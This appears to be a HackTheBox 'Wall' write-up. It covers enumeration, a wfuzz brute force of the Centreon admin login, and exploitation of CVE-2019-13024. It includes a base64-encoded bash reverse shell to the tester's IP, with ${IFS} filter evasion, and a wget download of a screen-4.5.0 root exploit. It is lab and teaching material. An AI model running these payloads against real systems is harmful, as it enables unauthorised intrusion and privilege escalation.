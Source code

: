 ```yaml
---
title: "Wall - HackTheBox"
date: "2019-12-07"
tags: []
---
```


## Information gathering

Let's start with a port scan:
```
$ nmap -A -T4 10.10.10.157
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-20 19:40 EDT
Nmap scan report for 10.10.10.157
Host is up (0.090s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.53 seconds
```

The web server has the Apache's default homepage.

Running a quick discovery gives us some pages to visit:
```
$ gobuster dir -q -t 40 -w raft-medium-files.txt -u http://10.10.10.157
/index.html (Status: 200)
/panel.php (Status: 200)
/wp-forum.phps (Status: 403)
/aa.php (Status: 200)
```

```
$ gobuster dir -q -t 40 -w raft-medium-directories.txt -u http://10.10.10.157
/monitoring (Status: 401)
/server-status (Status: 403)
```

## Exploration

`/aa.php` and `/panel.php` do not contain anything useful and `/monitoring` is
protected by HTTP basic authentication, which I tried to bruteforce with no
success. After a bit of tinkering, I found that making a `POST` request to
`/monitoring` redirects you to a page containing a link to `/centreon`:

```
$ curl -X POST -L http://10.10.10.157/monitoring
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```

Visiting `/centreon` we find ourselves in front of a login form for the Centreon
platform, which is a system monitoring tool:

![](/images/hackthebox/wall/centreon.png)

Let's try to login with a random username and password, and intercept the
request with Burp:
![](/images/hackthebox/wall/login.png)

The login process uses a token that changes with every request, so we can not
use hydra to do a bruteforce. We might write a script that fetches the token and
makes the login request, but whenever I stumble upon new web applications, I
like to learn how the mechanisms behind them are implemented. Centreon, in this
case, have an API that can be used to authenticate users and get a token. We can
then use wfuzz to find valid combination of username and password.

Before we launch the bruteforce, let's check if the API endpoint is up and
running:
```
$ curl -d "username=test&password=test" "http://10.10.10.157/centreon/api/index.php?action=authenticate"
"Bad credentials"
```

Ok, the authentication API works. A quick search tells us that the default
username on Centreon is `admin`, so let's start a bruteforce on that:

```
$ wfuzz -c --hc 403  -w probable-v2-top1575.txt -d 'username=admin&password=FUZZ' "http://10.10.10.157/centreon/api/index.php?action=authenticate"
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.157/centreon/api/index.php?action=authenticate
Total requests: 1575

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000048:   200        0 L      1 W      61 Ch       "password1"

Total time: 12.86365
Processed Requests: 1575
Filtered Requests: 1574
Requests/sec.: 122.4380
```

Nice! Look's like admin's password is `password1`! Let's use it to login.

## Exploiting

Here is the panel after logging in:
![](/images/hackthebox/wall/panel.png)
The menu on the right of the Centreon panel allows us to discover it's version
by going on Administration > About, and it's 19.04.0 commit `f2a106936`.

A search on Google immediately points us toward a remote code execution
identified by `CVE-2019-13024`:

> Centreon 18.x before 18.10.6, 19.x before 19.04.3, and Centreon web before
> 2.8.29 allows the attacker to execute arbitrary system commands by using the
> value "init_script"-"Monitoring Engine Binary" in main.get.php to insert a
> arbitrary command into the database, and execute it by calling the vulnerable
> page www/include/configuration/configGenerate/xml/generateFiles.php (which
> passes the inserted value to the database to shell_exec without sanitizing it,
> allowing one to execute system arbitrary commands).

The identification code for the exploit is `47069` on exploit-db, so let's
download it with `searchsploit -m 47069`. Let's have a look at the payload
section:
```python
payload_info = {
    "name": "Central",
    "ns_ip_address": "127.0.0.1",
    # this value should be 1 always
    "localhost[localhost]": "1",
    "is_default[is_default]": "0",
    "remote_id": "",
    "ssh_port": "22",
    "init_script": "centengine",
    # this value contains the payload , you can change it as you want
    "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
    "nagiostats_bin": "/usr/sbin/centenginestats",
    "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
    "centreonbroker_cfg_path": "/etc/centreon-broker",
    "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
    "centreonbroker_logs_path": "",
    "centreonconnector_path": "/usr/lib64/centreon-connector",
    "init_script_centreontrapd": "centreontrapd",
    "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
    "ns_activate[ns_activate]": "1",
    "submitC": "Save",
    "id": "1",
    "o": "c",
    "centreon_token": poller_token,
}
```

The `nagios_bin` field is the one that will be executed on the server.  The
first thing to do is to launch a netcat listener on our machine with `nc -lnvp
1337`.  

The first thing that we should do is to change all the URLs in the script by
prepending `/centreon` to them, as this is the location that it's installed to
on the machine.


Launching the exploit with our ip address and port, to get a reverse shell, does
not work, because there might be some characters that are not allowed in the
command. Let's try to create a string that could bypass the protections.  
We can encode with base64 our command to avoid using characters like `>` and
`&`:
```
$ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1" | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx
```

I used a bash reverse shell command to connect to our netcat listener because I
don't know which is the version of it on the server (if present at all), as the
syntax may vary from one to another.

Ok, now we have a base64 encoded reverse shell command. Let's add the decoding
command and pipe the result in bash:
```
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx | base64 -d | sh
```

Now let's set `nagios_bin` to use this command and remove the `.format(ip,
port)` as it's not needed anymore:
```
"nagios_bin": "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx | base64 -d | bash",
```

It still does not work, probably because of white spaces, so let's replace them with `${IFS}`:
```
"nagios_bin": "echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx|base64${IFS}-d|bash",
```

This still does not work, probably because of some sort of command concatenation
error, so let's add a `;` after the bash command
```
"nagios_bin": "echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx|base64${IFS}-d|bash;",
```

This time we finally have a connection from the server, so the exploit worked!

```
$ nc -lnvp 1337
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Wall:/usr/local/centreon/www$
```

## Privilege escalation
At first I saw this message `[+] We can connect to the local MYSQL service as
'root' and without a password!` and I tried to use mysql to get a shell, but I
could not get a stable output because of the shell running on netcat. I
continued reading LinEnum's output and I found an unusual executable in the
`SUID` files section:
![](/images/hackthebox/wall/linenum.png)

It is `screen-4.5.0`, and luckily, there's a handy local root exploit on
[exploit-db](https://www.exploit-db.com/exploits/41154). After downloading it on
our machine, let's start a web server with `python -m http.server 8080` and
let's download it on the remote machine with `wget
http://10.10.14.4:8080/41154.sh`. Just run it and a couple of seconds later we should
have a root shell! Let's read the flags:

```
$ wc -c /home/shelby/user.txt
33 /home/shelby/user.txt

$ wc -c /root/root.txt
33 /root/root.txt
```

I really couldn't find a way from `www-data` to `shelby`, except for some hashes
in `/etc/shadow` but I couldn't crack them, I guess I'll wait for Ippsec's
writeup!

Thanks for reading!
